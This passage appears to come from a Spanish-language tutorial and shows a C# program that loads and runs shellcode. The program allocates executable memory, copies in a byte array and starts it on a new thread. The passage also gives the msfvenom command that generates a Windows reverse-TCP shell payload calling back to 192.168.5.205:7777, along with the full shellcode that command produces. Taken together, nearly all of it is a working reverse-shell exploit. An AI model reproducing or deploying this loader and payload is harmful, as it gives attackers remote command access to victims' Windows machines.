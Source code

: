 ```cs
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
};
            Console.WriteLine();
            Console.ForegroundColor = ConsoleColor.Gray;
            Console.WriteLine("Iniciando sesion reversa");

            IntPtr funcAdrr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, funcAdrr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xffffffff);

        }
    }

}
```

Dentro del `Main` lo que estamos haciendo es pegar ese `payload` que nos ha generado `msfvenom` se realizaria de la siguiente forma:

```shell
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.5.205 LPORT=7777 -f csharp
```

Info:

```
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of csharp file: 1830 bytes
byte[] buf = new byte[354] {0xfc,0xe8,0x8f,0x00,0x00,0x00,
0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,
0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,
0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,
0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,
0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,
0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,
0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,
0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,
0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,
0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,
0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,
0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,
0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,
0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
};
```
